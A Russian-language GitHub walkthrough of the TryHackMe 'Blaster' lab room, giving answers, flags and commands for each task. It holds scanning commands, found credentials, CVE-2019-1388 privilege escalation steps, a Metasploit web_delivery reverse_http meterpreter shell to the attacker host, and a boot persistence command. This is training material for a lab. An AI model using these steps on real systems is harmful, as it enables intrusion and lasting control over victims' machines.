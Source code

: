 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Blaster](https://tryhackme.com/r/room/blaster) 

Всего 4 задания:
## Задание 1
В этой комнате мы рассмотрим альтернативные режимы эксплуатации без использования Metasploit или инструментов 
эксплуатации в целом, помимо nmap и dirbuster. Чтобы завершить комнату, мы вернемся к этим инструментам для 
обеспечения устойчивости и дополнительных шагов, которые мы можем предпринять. Давайте без дальнейших промедлений 
развернем нашу целевую машину!   

Искусство одного из наших участников, Варга -  Профиль THM  -  Instagram  -  Blaster Merch  - Twitter

Эта комната — ремикс моей предыдущей комнаты Retro с некоторыми усложнениями, которые я добавил к той комнате, 
которая была удалена. Для повышения сложности и тренировки терпения, проверьте эту комнату после этой. Кроме того, 
эта комната — продолжение Ice. - DarkStar7471  

#### Ответьте на вопросы ниже
Разверните машину! Это Windows-бокс, поэтому дайте ему несколько минут (3-5 максимум), чтобы выйти в онлайн
```commandline
Ответ не нужен
```

## Задание 2
Теперь, когда мы запустили нашу цель, давайте выполним базовый перечень служб, работающих на ней!

### Ответьте на вопросы ниже
Сколько портов открыто в нашей целевой системе?
```commandline
nmap -A -T4 -p- <IP>
```
```commandline
2
```
Похоже, веб-сервер работает. Каково название страницы, которую мы обнаруживаем при переходе на него?
```commandline
IIS Windows Server
```
Интересно, давайте посмотрим, есть ли что-нибудь еще на этом веб-сервере, проведя фаззинг. Какой скрытый каталог мы 
обнаружим? 
```commandline
gobuster dir --url http//<IP>/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
```commandline
/retro
```
Перейдите в обнаруженный нами скрытый каталог. Какое потенциальное имя пользователя мы там обнаружим?
```commandline
http:/<IP>/retro
```
```commandline
wade
```
Просматривая посты, похоже, что у нашего пользователя недавно возникли некоторые трудности со входом. Какой 
возможный пароль мы обнаруживаем?
`пароль в комментарии.`
```commandline
parzival
```
Войдите в систему через Microsoft Remote Desktop (MSRDP) и прочитайте user.txt. Каково его содержимое?
Используя имя пользователя и пароль, мы успешно вошли в систему и видим, что файл user.txt присутствует на рабочем 
столе. Вы можете просмотреть файл user.txt и отправить флаг пользователя. 
```commandline
THM{HACK_PLAYER_ONE}
```

## Задание 3
Теперь, когда мы получили доступ к нашей целевой системе, давайте посмотрим, сможем ли мы найти способ эскалации. 
Для начала давайте разведаем систему, чтобы посмотреть, сможем ли мы найти что-нибудь интересное. 

### Ответьте на вопросы ниже
При перечислении машины часто бывает полезно посмотреть, что пользователь делал в последний раз. Осмотрите машину и 
посмотрите, сможете ли вы найти CVE, который был исследован на этом сервере. Какой CVE это был? 

Проверив историю браузера, мы получили полезную информацию. После поиска в Google по этой теме мы обнаружили, что мы можем использовать эту уязвимость для получения root-доступа. Если вы хотите узнать об этой уязвимости, вы можете посетить этот сайт.
[CVE-2019–1388 | Уязвимость повышения привилегий в диалоговом окне сертификата Windows](https://infosecwriteups.com/blaster-walkthrough-tryhackme-f44f0adb6814#:~:text=%D0%9F%D0%BE%D1%81%D0%BB%D0%B5%20%D0%BF%D0%BE%D0%B8%D1%81%D0%BA%D0%B0%20%D0%B2,%D0%BE%D0%BA%D0%BD%D0%B5%20%D1%81%D0%B5%D1%80%D1%82%D0%B8%D1%84%D0%B8%D0%BA%D0%B0%D1%82%D0%B0%20Windows)
```commandline
CVE-2019-1388
```
Похоже, что для эксплуатации этой уязвимости необходим исполняемый файл, а пользователь не очень хорошо почистил его 
после тестирования. Как называется этот исполняемый файл? 
Итак, теперь пришло время расширить наши привилегии. Я нашел неудаленный файл в корзине. Давайте 
запустим ее. 
```commandline
hhupd
```
Исследуйте уязвимость и как ее эксплуатировать. Эксплуатируйте ее сейчас, чтобы получить повышенный терминал!
Итак, он запрашивает пароль администратора, давайте нажмем «Показать информацию о сертификате издателя».
И нажмите «VeriSign Commercial Software Publishers CA» после того, как откроется Internet Explorer.
Нажмите «Настройки», «Файл» и нажмите «Сохранить как». Итак, вы видите, что мы получаем ошибку, нажмите «ОК» и в 
поле «Имя файла» введите эту команду `C:\Windows\System32\*.*`   
```commandline
Ответ не нужен
```
Теперь, когда мы создали терминал, давайте продолжим и запустим команду 'whoami'. Какой вывод будет после ее запуска?
```commandline
nt authority\system
```
Теперь, когда мы убедились, что у нас есть повышенный запрос, прочитайте содержимое root.txt на рабочем столе 
администратора. Каково его содержимое? Не выключайте терминал после эксплуатации, чтобы мы могли использовать его в 
четвертой задаче! 
```commandline
cd Desktop
dir
type root.txt
```
```commandline
THM{COIN_OPERATED_EXPLOITATION}
```

## Задание 4
Теперь, когда мы полностью скомпрометировали нашу целевую машину, давайте вернемся к нашим инструментам эксплуатации,
чтобы мы могли получить удаленный доступ к оболочке и сохранить устойчивость. 

### Ответьте на вопросы ниже
Вернитесь к машине атакующего для следующего шага. Поскольку мы знаем, что на нашей машине жертвы запущен Защитник 
Windows, давайте попробуем другой метод доставки полезной нагрузки! Для этого мы будем использовать эксплойт 
веб-доставки скрипта в Metasploit. Запустите Metasploit сейчас и выберите «exploit/multi/script/web_delivery» для 
использования.   

Вернитесь к машине атакующего для следующего шага. Поскольку мы знаем, что на нашей машине жертвы запущен Защитник 
Windows, давайте попробуем другой метод доставки полезной нагрузки! Для этого мы будем использовать эксплойт 
веб-доставки скрипта в Metasploit. Запустите Metasploit сейчас и выберите «exploit/multi/script/web_delivery» для 
использования.  
```commandline
msfconsole
use exploit/multi/script/web_delivery
```
```commandline
Ответ не нужен
```
Сначала давайте установим цель PSH (PowerShell). Какой целевой номер — PSH?
```commandline
show targets
```
```commandline
2
```
После настройки полезной нагрузки настройте lhost и lport соответствующим образом, чтобы знать, на каком порту будет 
работать веб-сервер MSF и что он будет работать в сети TryHackMe. 
```commandline
options
set lhost <IP>
set lport 4444
```
```commandline
Ответ не нужен
```
Наконец, давайте установим нашу полезную нагрузку. В этом случае мы будем использовать простую обратную полезную 
нагрузку HTTP. Сделайте это сейчас с помощью команды: 'set payload windows/meterpreter/reverse_http'. После этого 
запустите атаку как задание с помощью команды 'run -j'.  скопируйте эксплойт и вставьте его на взломанную машину, 
чтобы получить обратное соединение. 
```commandline
set payload windows/meterpreter/reverse_http'
run -j
```
```commandline
Ответ не нужен
```
Вернитесь в терминал, который мы создали с помощью нашего эксплойта. В этот терминал вставьте вывод команды 
Metasploit после запуска задания. В этом случае я обнаружил, что особенно полезно разместить простой веб-сервер 
Python (python3 -m http.server) и разместить команду в текстовом файле, поскольку копирование и вставка между 
машинами не всегда будут работать. После запуска этой команды вернитесь на нашу атакующую машину и обратите внимание,
что наша обратная оболочка создана.     
```commandline
Ответ не нужен
```
И последнее, но не менее важное: давайте рассмотрим механизмы сохранения через Metasploit. Какую команду мы можем 
запустить в нашей консоли meterpreter, чтобы настроить сохранение, которое автоматически запускается при загрузке 
системы? Не включайте ничего, кроме базовой команды и опции для запуска загрузки.   
```commandline
run persistence -X
```
Запустите эту команду сейчас с параметрами, которые позволяют ей подключиться обратно к вашей хост-машине в случае 
перезагрузки системы. Обратите внимание, что вам нужно будет создать слушателя через эксплойт обработчика, чтобы 
разрешить это удаленное подключение на практике. Поздравляем, теперь вы получили полный контроль над удаленным 
хостом и установили постоянство для дальнейших операций!    
```commandline
Ответ не нужен
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)